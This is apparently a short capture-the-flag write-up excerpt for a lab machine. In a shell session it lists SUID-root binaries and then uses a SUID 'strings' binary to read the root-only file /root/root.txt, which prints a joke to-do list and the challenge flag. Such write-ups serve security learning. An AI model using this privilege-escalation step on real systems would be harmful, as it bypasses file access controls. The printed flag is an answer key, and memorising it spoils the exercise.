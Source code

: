 > **Privilege Escalation with Internal Logic**
> 

```powershell
jack@jack-of-all-trades:~$ find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
-rwsr-xr-x 1 root root 464904 Mar 22  2015 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 294512 Feb  9  2015 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10248 Apr 15  2015 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 44464 Nov 20  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 53616 Nov 20  2014 /usr/bin/chfn
-rwsr-xr-x 1 root root 39912 Nov 20  2014 /usr/bin/newgrp
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
-rwsr-xr-x 1 root root 149568 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 54192 Nov 20  2014 /usr/bin/passwd
-rwsr-xr-x 1 root root 75376 Nov 20  2014 /usr/bin/gpasswd
-rwsr-sr-x 1 root mail 89248 Feb 11  2015 /usr/bin/procmail
-rwsr-xr-x 1 root root 3124160 Feb 17  2015 /usr/sbin/exim4
-rwsr-xr-x 1 root root 40000 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 27416 Mar 29  2015 /bin/umount
-rwsr-xr-x 1 root root 40168 Nov 20  2014 /bin/su

jack@jack-of-all-trades:~$ strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

jack@jack-of-all-trades:~$ 
```